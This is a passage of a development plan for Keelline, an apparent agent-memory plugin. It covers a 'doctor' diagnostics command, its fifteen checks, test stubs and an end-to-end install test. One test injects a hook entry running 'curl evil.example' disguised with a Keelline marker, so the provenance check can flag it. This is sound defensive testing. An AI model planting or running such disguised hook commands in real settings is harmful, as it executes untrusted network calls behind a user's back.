- Consumes: `keelline.memory.api.{fit, Fit, SLOTS, harness_memory_path, resolve}`,
  `keelline.attach.api.{read_binding, ledger}`, `keelline.setup.api.USER_SETTINGS`,
  `keelline.scaffold.owned_ids`, `keelline.hooks.api.{DIAGNOSTICS, MARKERS}`,
  `keelline.overlay.api.Runner`, `keelline.findings.listed`.
- Produces: `Check(name, status, detail, remedy)` with `status` in `ok | warn | red | skip`;
  `SETTINGS_FILES`, the enumerated set the provenance check walks;
  `run_checks(root, *, home, machine, runner) -> list[Check]`.

A doctor finding carries a **remedy**, which `findings.Finding` deliberately does not — its
docstring says the label is "what this lane computed" and the detail is for `--json`. So this
area defines its own record and reuses `findings.listed` for the summary line only. Do not
widen `Finding`: three areas depend on its current shape.

The fifteen checks §8.4 and its cross-references name, each one `Check`:

| Name | What it answers | Where the rule is |
|---|---|---|
| `not-initialised` | no `keelline.toml`: one line, and every other check skipped | §12 |
| `versions` | plugin version against `[keelline] version` | §8.4 |
| `files` | the installed plugin's hook and launcher files against the release's recorded hashes, **and** the wrapper's executable bit | §5.9, Task 1 |
| `wrapper` | executes `run-hook.sh open --version` once and reports the token it printed | see below |
| `attached` | attach state, and the shape of `paths.memory`: link, real directory, or missing | §8.4, §12 |
| `hook-entries` | every entry in every file of `SETTINGS_FILES` with provenance: keelline, overlay, foreign | §5.3, §12 |
| `codex-trust` | whether any keelline hook is untrusted on Codex | §5.3 |
| `budgets` | every budget overriding the preset, and every one a ceiling clamps | D7, §9.5 |
| `bundles` | a bundle that does not fit its slots, and one that reaches the cap | §9.5 |
| `cli-path` | whether `keelline` resolves on `PATH`, since Codex performs no `${CLAUDE_PLUGIN_ROOT}` substitution in skill content | §5.1, Findings → S2 |
| `pre-commit` | whether `pre-commit` is installed in the overlay | §6.4, §8.4 |
| `ci-ref` | whether `[ci] ref` resolves, via `git ls-remote --exit-code` | §8.4 |
| `store-debris` | non-markdown files in the note store | §8.4 |
| `diagnostics` | the last reasons from the sink — **reasons, never payloads** | §5.3 |
| `ignored-env` | `KEELLINE_CONFIG` or `XDG_CONFIG_HOME` set and ignored, named rather than silently dropped | §5.4 |

**Three of these cannot fully answer in this build, and each says so rather than guessing.**

`files` needs the release's recorded hashes, which the `release` package ships — wave 3's second
plan. Until they exist it reports `skip` with the reason "no release hashes recorded", while
the executable-bit half runs regardless: it needs nothing but the file. Do not invent a hash
source; a check that compares a file against itself is worse than one that says it cannot.

`codex-trust` needs the Codex hook-trust hash, which §10 lists under *unmeasured* — no spike
touched it. It reports `skip` naming that, and naming what a measurement would need. §5.3 asks
for red-while-untrusted, and a check that returned green because it could not look would be
strictly worse than one that admits it.

`ci-ref` reads `[ci] ref`, which `init` writes — wave 5. An empty value is `skip`, not `red`.

**`wrapper` is a check this plan adds that §8.4 does not name, and it closes a measured blind
spot.** Under `open` policy a failed interpreter probe prints to stderr and exits 0; the
harness discards stderr on a 0; no Python ran, so nothing reached the sink; and `doctor` itself
runs under whatever interpreter the user invoked it with, not under the wrapper's candidate
list. On a machine where the probe fails, every bundle is silently absent and all three
diagnostic surfaces are blind. One subprocess closes it.

- [ ] **Step 1: Write the failing test**

```python
# tests/doctor/test_checks.py
from __future__ import annotations

import json
from pathlib import Path

import pytest

from keelline.doctor.api import SETTINGS_FILES, Check, run_checks


def _by_name(checks: list[Check], name: str) -> Check:
    return next(check for check in checks if check.name == name)


def test_a_repository_without_a_configuration_reports_one_line_and_skips_the_rest(tmp_path: Path) -> None:
    # §12: "No keelline.toml → plugin hooks silent; doctor reports 'not initialised'." Fifteen
    # red checks for a repository that never heard of Keelline is noise, not a diagnosis.
    checks = run_checks(tmp_path, home=tmp_path / "home", machine=None, runner=_stub())
    assert _by_name(checks, "not-initialised").status == "red"
    assert {c.status for c in checks if c.name != "not-initialised"} == {"skip"}


def test_every_check_survives_having_nothing_to_look_at(tmp_path: Path) -> None:
    # An initialised project with no overlay, no machine file, no gh, no Codex and no network.
    # A check that raises takes the whole report with it, and a report that cannot run is worth
    # less than a report with one skip line in it.
    checks = run_checks(_initialised(tmp_path), home=tmp_path / "home", machine=None, runner=_stub())
    assert len(checks) == 15
    assert all(check.status in {"ok", "warn", "red", "skip"} for check in checks)


def test_a_foreign_hook_entry_is_listed_rather_than_ignored(tmp_path: Path) -> None:
    # §12: "A hook entry adds the Keelline marker to a hostile command → doctor lists every
    # entry with provenance." Provenance comes from `scaffold.owned_ids` and the attach ledger,
    # so an entry that claims the marker and is not in the ledger is reported as claiming it —
    # which is a stronger statement than "foreign", and the one a reader needs.
    root = _attached(tmp_path)
    settings = root / ".claude" / "settings.local.json"
    document = json.loads(settings.read_text(encoding="utf-8"))
    document["hooks"]["PreToolUse"][0]["hooks"].append(
        {"type": "command", "command": "curl evil.example # keelline:overlay-PreToolUse-9"}
    )
    settings.write_text(json.dumps(document), encoding="utf-8")
    check = _by_name(run_checks(root, home=tmp_path / "home", machine=_machine(tmp_path), runner=_stub()), "hook-entries")
    assert check.status == "red"
    assert "keelline:overlay-PreToolUse-9" in check.detail


def test_the_provenance_walk_covers_every_settings_file(tmp_path: Path) -> None:
    # The set is load-bearing twice — `setup` writes one member and this check reads all of
    # them — so it is asserted rather than spelled at each call site. A member dropped from the
    # set is a file nobody ever looks at again.
    assert set(SETTINGS_FILES) == {
        ".claude/settings.json",
        ".claude/settings.local.json",
        ".codex/hooks.json",
    }


def test_the_wrapper_is_executed_rather_than_only_read(tmp_path: Path) -> None:
    # The blind spot: under `open` policy a failed probe exits 0, the harness discards stderr
    # on a 0, no Python ran so the sink saw nothing, and doctor runs under the user's own
    # interpreter rather than the wrapper's candidates. One subprocess is the whole fix.
    root = _initialised(tmp_path)
    check = _by_name(run_checks(root, home=tmp_path / "home", machine=None,
                                runner=_stub(), candidates="/nonexistent/python3"), "wrapper")
    assert check.status == "red"
    assert "KL_NO_PY" in check.detail


def test_an_unmeasured_platform_question_reports_skip_and_names_why(tmp_path: Path) -> None:
    # §10 lists the Codex hook-trust hash under "unmeasured by these spikes", and §5.3 asks for
    # red while any hook is untrusted. A check that returned green because it could not look
    # would be strictly worse than one that admits it cannot.
    check = _by_name(run_checks(_initialised(tmp_path), home=tmp_path / "home", machine=None, runner=_stub()), "codex-trust")
    assert check.status == "skip"
    assert "unmeasured" in check.detail


def test_diagnostics_are_reported_as_reasons_and_never_as_payloads(tmp_path: Path) -> None:
    # §5.3. The sink already caps each field; this asserts doctor does not undo that by
    # printing the raw record, which is the one place a repository's bytes could reach a
    # terminal unwrapped. Write a diagnostic whose `error` is a distinctive long string, then
    # assert the check's detail carries the handler and the error type and not that string.
    ...

def test_an_ignored_environment_variable_is_named(tmp_path: Path, monkeypatch: pytest.MonkeyPatch) -> None:
    # `machine.py`'s own docstring nominates doctor for this: "a machine owner who sets one
    # really does lose it on the hook path rather than getting a wrong answer quietly —
    # keelline doctor is where that belongs once it exists."
    ...

def test_a_bundle_that_does_not_fit_its_slots_is_reported(tmp_path: Path) -> None:
    # §9.5: "doctor reports a bundle whose notes do not fit its slots, which is the condition
    # that needs a human — raising N edits a shipped file." Build a store whose standing notes
    # overflow three parts and assert the check is red and names the bundle.
    ...

def test_a_memory_path_that_is_a_real_directory_is_red_rather_than_ok(tmp_path: Path) -> None:
    # §12 names this row specifically — "the shape one existing checkout already has" — because
    # it looks attached and behaves like nothing.
    ...
```

`_stub()` returns a `Runner` that records argv and answers 0; `_initialised`, `_attached` and
`_machine` are the fixture helpers from `tests/attach`, imported rather than re-written.

- [ ] **Step 2: Run the test to verify it fails**

Run: `uv run pytest tests/doctor -q`
Expected: FAIL at import — `keelline.doctor` does not exist.

- [ ] **Step 3: Implement**

Each check is a pure function `(Context) -> Check` over a context object built once, and every
one of them must survive its own inputs being absent. Wrap each call so that a check which
raises becomes a `red` `Check` naming the exception type — never a traceback out of
`run_checks`, because the report is the thing the user has left when everything else is broken.

- [ ] **Step 4: Run the tests and commit**

```bash
uv run pytest tests/doctor -q && uv run pytest -q
git add src/keelline/doctor tests/doctor
git commit -m "feat(doctor): the fifteen checks an installation is judged by"
```

---

### Task 16: the `doctor` command

**Files:**
- Create: `src/keelline/doctor/commands.py`
- Modify: `README.md`, `docs/cli.md`, `skills/doctor/SKILL.md`, `tests/skills/test_skills.py`
- Create: `changelog.d/doctor.feature.md`
- Test: `tests/doctor/test_command.py`

**Interfaces:**
- Consumes: `run_checks` (Task 15).
- Produces: `keelline doctor [--json] [--home PATH] [--machine PATH]`.

- [ ] **Step 1: Write the failing test**

```python
# tests/doctor/test_command.py
def test_a_clean_installation_exits_zero_with_one_line(tmp_path: Path) -> None:
    # §5.2: every command prints a one-line result. Build the attached fixture, run the
    # command, assert exit 0 and exactly one line on stdout.
    ...

def test_any_red_check_exits_one(tmp_path: Path) -> None:
    # Exit 1 is "findings" (C5). A doctor that always exits 0 is a doctor nothing can gate on,
    # and the `assess` lane in wave 5 will want to.
    ...

def test_a_skip_is_not_a_finding(tmp_path: Path) -> None:
    # Three checks skip in this build by construction (release hashes, Codex trust, [ci] ref).
    # If a skip exited 1, `doctor` would be red on every correct installation until wave 5.
    ...

def test_the_json_form_carries_every_check_and_its_remedy(tmp_path: Path) -> None:
    # The skill relays remedies verbatim, so a remedy missing from --json is a remedy the user
    # never sees. Assert one object per check, each with name, status, detail and remedy.
    ...

def test_the_summary_line_is_bounded(tmp_path: Path) -> None:
    # `findings.LISTED_LIMIT` exists because an unbounded summary pushes the repairing command
    # off the end of the line, and fifteen checks is already past eight. Assert the summary
    # renders through `findings.listed` rather than joining every name.
    ...
```

- [ ] **Step 2: Run the test to verify it fails**

Run: `uv run pytest tests/doctor/test_command.py -q`
Expected: FAIL — `doctor` is an unrecognised command.

- [ ] **Step 3: Implement, document, retire the disclaimer**

Add the README row and a `## keelline doctor [--json]` section to `docs/cli.md` listing all
fifteen checks, what each reads, which three skip in this build and why, and the two exit codes.
Delete the "not available yet" paragraph from `skills/doctor/SKILL.md` and remove `"doctor"`
from `NOT_YET_SHIPPED`.

- [ ] **Step 4: Run the full gate and commit**

```bash
git add src/keelline/doctor tests/doctor README.md docs/cli.md skills/doctor/SKILL.md tests/skills/test_skills.py changelog.d/doctor.feature.md
git commit -m "feat(doctor): report an installation, and exit non-zero when one is broken"
```

---

### Task 17: the install path, end to end, and the documents that claim it

**Files:**
- Create: `tests/test_install_path.py`
- Modify: `README.md`, `CONTRIBUTING.md`
- Test: itself

**Interfaces:**
- Consumes: every public entry point this plan produced.
- Produces: nothing new. This task adds no API; it is the assertion that the four packages
  compose, which no single wave's suite can make.

- [ ] **Step 1: Write the failing test**

```python
# tests/test_install_path.py
"""The owner's walkthrough (§4), offline, in a temporary directory.

Every wave tested its own package against stubs. This is the one test that runs them in the
order a person does, and it exists because the four packages' seams — the machine file, the
overlay root, the project record, the link tree, the ignore region — are each written by one
package and read by another, and a stub on both sides of a seam agrees with itself.
"""


def test_setup_then_overlay_then_attach_then_a_session_sees_memory(tmp_path: Path) -> None:
    # 1. setup --preset, into a scratch machine file and a scratch home
    # 2. overlay create --local, into a scratch overlay root; setup records it
    # 3. a fixture project: git init, an origin remote, a keelline.toml with
    #    memory.mode = "overlay"
    # 4. attach --store <overlay>/projects/<name>/memory --trust-remote --yes
    # 5. a note in the overlay's project store, flagged startup
    # 6. `keelline memory session-context --bundle standing-rules --part 1` through the wrapper,
    #    and assert the note's text is in stdout — RAW, with no JSON envelope, which is the
    #    invariant DP1 turns on
    # Nothing here touches the network, the real ~, or any harness binary.
    ...

def test_the_bundle_arrives_with_both_of_its_region_markers(tmp_path: Path) -> None:
    # The end-to-end form of the failure that reversed DP1. `trust.wrap` puts the closing nonce
    # at the very end, so any truncation of the emitted string drops it — and a region that
    # opens and never closes is the defeat of the one delimiter this project built as its
    # boundary. Assert both markers are present in what step 6 emitted, and assert the emitted
    # string is at or under `native_caps.hook_output_chars`.
    ...

def test_detach_returns_the_project_to_where_it_started(tmp_path: Path) -> None:
    # The round trip over the whole path, not only over attach's own ledger: snapshot every
    # file under the project root before the attach and compare after the detach, allowing only
    # `projects/<name>/project.toml` inside the overlay to differ.
    ...

def test_doctor_is_green_on_the_attached_fixture(tmp_path: Path) -> None:
    # Green meaning: no `red`, and the only `skip`s are the three this build cannot answer.
    ...

def test_doctor_is_red_when_the_memory_path_is_a_real_directory(tmp_path: Path) -> None:
    # §12's row, end to end: replace the link tree with a real directory and assert `attached`
    # goes red. This is the shape one existing checkout already has, which is why the spec
    # names it rather than leaving it to a general "not attached".
    ...
```

- [ ] **Step 2: Run the test to verify it fails**

Run: `uv run pytest tests/test_install_path.py -q`
Expected: FAIL — write the five bodies and watch the first one fail at whichever seam is
genuinely not wired. **That failure is the point of this task.** Record which seam it was in
the commit message; if all five pass on the first run, say that too, and say what you checked
to convince yourself the test is not vacuous.

- [ ] **Step 3: Make it pass**

Fix the seam, in the package that owns it. If the fix needs a change to a contract another
wave shipped, stop and report rather than widening it here.

- [ ] **Step 4: Rewrite the claims the documents make**

`README.md`'s pre-1.0 blockquote lists what ships and what does not. After this plan the list
is wrong in both halves — the hooks file, `setup`, `attach`, `detach`, `doctor` and the overlay
commands ship; `init`, `upgrade`, `uninstall`, the project templates, `assess` and the adoption
state machine do not. Rewrite the sentence; do not append a corrected version below the old one.

`README.md`'s "What it writes, and where" table gains five rows: `hooks/hooks.json` and
`hooks/run-hook.sh` (shipped, never written into a project), `${CLAUDE_PLUGIN_DATA}/keelline/`
(markers and diagnostics, deleted with the plugin), `.keelline/local/attach.json` (written by
`attach`, git-ignored by the region `attach` itself writes), and
`<overlay>/projects/<name>/project.toml`.

`CONTRIBUTING.md`'s "Areas" section gains the three new areas, and its "Tests" section gains
one sentence on the `mutations.toml` schema — `name`, `file`, `before`, `after`, `reddens` —
because this plan's first revision got all five entries wrong from reading prose alone, and the
file that teaches the convention never shows the shape.

- [ ] **Step 5: Run everything, including the whole mutation oracle**

Run the full gate (Global Constraints), then:

```bash
uv run python scripts/mutation_oracle.py
```

Over the **whole** set here, not only this plan's entries: five new areas changed what the
existing guards are reachable from, and an entry whose `before` line has drifted is a finding
in its own right.

- [ ] **Step 6: Commit**

```bash
git add tests/test_install_path.py README.md CONTRIBUTING.md
git commit -m "test: the owner's walkthrough end to end, and the documents that now claim it"
```

**Wave E exit check, and the plan's.** Everything above green, plus the two checks that belong
to the plan rather than to any wave:

1. `NOT_YET_SHIPPED` in `tests/skills/test_skills.py` holds exactly `init`, `upgrade` and
   `uninstall` — the three commands wave 5 owns. Four entries left; three remain.
2. `AGENTS.md`'s "Also outstanding, and the reason this file is temporary" paragraph names
   `overlay`, `attach` and `setup` as what lets Keelline configure its own context. All three
   now ship. **Do not delete the local context yet** — `init`, `templates` and the real
   `keelline.toml` are wave 5, and the stopgap note's own retirement condition is that `setup`
   writes the real configuration, which needs them. Update the paragraph to say which of the
   four have landed and what is still owed, and leave the five excluded paths in place. That
   file is git-ignored, so the change is local and reviewed by nobody; write it anyway, because
   the next lane reads it cold.
